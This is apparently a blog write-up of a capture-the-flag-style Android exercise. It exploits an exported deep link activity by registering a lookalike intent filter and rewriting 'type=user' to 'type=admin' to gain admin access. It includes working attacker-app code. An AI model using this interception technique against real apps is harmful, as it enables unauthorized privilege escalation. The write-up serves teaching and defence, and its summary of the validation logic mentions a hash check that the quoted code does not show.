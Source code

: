 ```yaml
---
layout: post
title: How I Gained Admin Access Through DeepLink Hijacking
date: 2025-03-14 20:53 +0200
catgeories: Mobile
tags: Android Mobile
---
```


Hello everyone! Today, I’ll walk you through how to exploit a DeepLink hijacking vulnerability to gain admin access.<br>
Let’s dive right in.

## Step 1: Analyzing the AndroidManifest
While reviewing the `AndroidManifest.xml`, I noticed an `exported` activity with the following BROWSABLE intent filter:
```java
<intent-filter>  
    <action android:name="android.intent.action.VIEW" />  
    <category android:name="android.intent.category.DEFAULT" />  
    <category android:name="android.intent.category.BROWSABLE" />  
    <data  
        android:scheme="hex"  
        android:host="token" />  
</intent-filter>
```
This exported activity allows external applications or browsers to interact with it using the `hex://token` scheme and host combination.
## Step 2: Reviewing the Source Code
Here’s the relevant snippet of the activity’s code:
```java
  public void onCreate(Bundle bundle) {  
    super.onCreate(bundle);  
    Intent intent = getIntent();  
    if (intent == null || intent.getAction() == null) {  
        finish();  
        return;  
    }  

    if (intent.getAction().equals("android.intent.action.VIEW")) {  
        Uri data = intent.getData();  
        String type = data.getQueryParameter("type");  
        String authToken = data.getQueryParameter("authToken");  
        String authChallenge = data.getQueryParameter("authChallenge");  
        String savedChallenge = SolvedPreferences.getString(getPrefixKey("challenge"));  

        if (type == null || authToken == null || authChallenge == null || !authChallenge.equals(savedChallenge)) {  
            Toast.makeText(this, "Invalid login", Toast.LENGTH_SHORT).show();  
            finish();  
            return;  
        }  

        if (type.equals("user")) {  
            Toast.makeText(this, "User login successful", Toast.LENGTH_SHORT).show();  
        } else if (type.equals("admin")) {  
            Log.i("Flag14", "hash: " + authToken);  
            Toast.makeText(this, "Admin login successful", Toast.LENGTH_SHORT).show();  
            success(this);  
        }  
    }  
}
```
### Key takeaways from the code:
- The `type`, `authToken`, and `authChallenge` parameters are validated.
- A specific `authChallenge` must match a saved value to proceed.
- If the `type` parameter is set to `"admin"` and the hash of `authToken` matches a predefined value, admin login is granted.

## Step 3: Crafting the Exploit
To exploit this vulnerability, I created an attack application with the same intent filter in its **AndroidManifest.xml:**
```java
<intent-filter>  
    <action android:name="android.intent.action.VIEW" />  
    <category android:name="android.intent.category.DEFAULT" />  
    <category android:name="android.intent.category.BROWSABLE" />  
    <data  
        android:scheme="hex"  
        android:host="token" />  
</intent-filter>
```
This allows my application to intercept the DeepLink.

## Initial Exploit Attempt
Here’s the initial code I used to send an intent via the application’s DeepLink:
```java
protected void onCreate(Bundle savedInstanceState) {  
    super.onCreate(savedInstanceState);  
    setContentView(R.layout.activity_main);  

    ((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(new View.OnClickListener() {  
        @Override  
        public void onClick(View v) {  
            Intent intent = new Intent();  
            intent.setClassName("com.example", "com.example.connectProperty");  
            startActivity(intent);  
        }  
    });  
}
```
Upon inspecting the intent data, I found a parameter called `type=user`. 
This parameter defines the user’s role:

![](https://miro.medium.com/v2/resize:fit:1062/format:webp/1*53tEwJoEQpkO6MCNj1WsUA.png)

## Exploiting the Vulnerability
What happens if we replace `type=user` to `type=admin`? 🤔

Here’s the final exploit code:
```java
if (intent.getAction().equals("android.intent.action.VIEW")) {  
    Uri data = intent.getData();  
    if (data != null && data.getScheme().equals("hex") && data.getHost().equals("token")) {  
        Intent newIntent = new Intent();  
        newIntent.fillIn(intent, Intent.FILL_IN_DATA | Intent.FILL_IN_ACTION | Intent.FILL_IN_CATEGORIES);  
        newIntent.setClassName("com.example", "com.example.connectProperty");  
        newIntent.setData(Uri.parse(newIntent.getDataString().replace("type=user", "type=admin")));  

        startActivity(newIntent);  
    }  
}
```
By replacing `type=user` with `type=admin` in the DeepLink, I successfully gained admin privileges! 🎉
![](https://miro.medium.com/v2/resize:fit:632/format:webp/1*6VS8_Rk8iYBxPQmvR7CdAQ.png)

## Final Thoughts
This exercise highlights the importance of securely validating input parameters in DeepLink handlers. Improper validation or overly permissive exported activities can lead to severe vulnerabilities like privilege escalation.

**THANKS FOR READING ❤️**

